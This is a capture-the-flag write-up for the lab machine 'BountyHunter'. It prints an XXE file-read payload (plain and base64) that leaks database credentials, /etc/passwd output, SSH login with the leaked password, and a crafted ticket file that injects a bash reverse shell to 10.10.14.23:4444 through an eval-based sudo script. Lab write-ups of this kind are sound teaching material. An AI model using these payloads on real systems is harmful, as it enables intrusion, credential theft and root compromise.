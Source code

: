 # nmap scan

```shell
Nmap scan report for bounty.htb (10.129.95.166)
Host is up (0.075s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

> found XXE vulnerability on http://bounty.htb/log_submit.php the payload was base64 encoded

# XXE payload

> used this payload which translates to [code below]

```base64 
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gInBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9L3Zhci93d3cvaHRtbC9kYi5waHAiPiBdPgkJPGJ1Z3JlcG9ydD4KCQk8dGl0bGU%2bJmV4YW1wbGU7PC90aXRsZT4KCQk8Y3dlPnRxd2U8L2N3ZT4KCQk8Y3Zzcz5xd2U8L2N2c3M%2bCgkJPHJld2FyZD5ycTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3d%3d
```

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>		
<bugreport>
		<title>&example;</title>
		<cwe>tqwe</cwe>
		<cvss>qwe</cvss>
		<reward>rq</reward>
</bugreport>

```

it returns a php file with admin credentials
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

```shell
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
==development==:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

```

> in addition to the php files, /etc/passwd can also be displayed using the payload.
> I used the credentials on the **development** user to gain shell access 

```shell
ssh development@bounty.htb
```

> gained access to the shell, the user has a sudo privilege to run a python script on which executes user input using the *eval* method
> 
```shell
User development may run the following commands on bountyhunter: (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

> the python script extracts text from a markdown file, markdown file strictly follows a format, nonetheless it exit the execution

> I used this ticket file on the python script 

## ticket.md
```python 
# Skytrain Inc
## Ticket to testa
__Ticket Code:__
**11 __import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.23/4444 0>&1"')

```


> then I execute the script 

```shell
sudo python3.8 /opt/skytrain_inc/ticketValidator.py
```

